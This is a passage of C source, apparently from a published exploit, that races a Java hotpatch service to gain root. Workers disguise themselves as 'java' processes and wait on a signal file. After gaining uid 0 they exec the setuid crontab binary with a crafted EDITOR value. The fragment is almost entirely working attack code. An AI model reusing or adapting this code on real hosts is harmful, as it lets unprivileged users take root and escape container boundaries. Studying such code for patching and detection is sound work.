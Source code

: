 ```c
                        // Tell other processes to proceed with setting their uid to 0
                        int gofd = open(FN_GO, O_RDWR | O_CREAT | O_EXCL, 0666);
                        if (gofd != -1) {
                                // Make the file world writable so the unprivileged main loop
                                // can clean it up in the event of failure to win the race.
                                fchmod(gofd, 0666);
                        }

                        // Our job is done. Good luck to our friends \m/
                        return 0;
                }

                if(strcmp(argv[1], "-worker") == 0) {
                        // Make ourselves appear patchable to the hotpatch service
                        signal(SIGQUIT, nop);

                        printf("Worker pid=%d waiting for %s to appear\n", getpid(), FN_GO);

                        for (;;) {
                                // Wait for FN_GO to appear
                                if (access(FN_GO, F_OK) == 0) {
                                        puts("Worker: It arrived");
                                        break;
                                }
                                // It hasn't arrived. Sleep for 10ms.
                                usleep(10*1000);
                        }

                        // The hotpatcher is making its way through the java processes
                        // Jitter
                        usleep((int)getpid() % 100 * 1000);
                        // Become euid=0 by exec'ing a setuid binary
                        char *args[] = {"crontab", "-e", NULL};
                        char *envs[] = {"EDITOR=sleep 0.1 #", NULL};
                        execve("/usr/bin/crontab", args, envs);
                }

                printf("Unknown option: %s\n", argv[1]);
                return -1;
        }

        // Main loop

        for (;;) {
                printf("Main loop: Spawning %d workers\n", NUM_WORKERS);
                for (int i=0; i < NUM_WORKERS; i++) {
                        int pid = fork();
                        if (pid == 0) {
                                execl("/proc/self/exe", "java", "-worker", NULL);
                                return 0;
                        }
                }

                printf("Main loop: Waiting for %s to appear\n", FN_GO);
                for (;;) {
                        if (access(FN_GO, F_OK) == 0) {
                                break;
                        }
                        sleep(1);
                }

                // Wait for all children
                for (int i=0; i < NUM_WORKERS; i++) {
```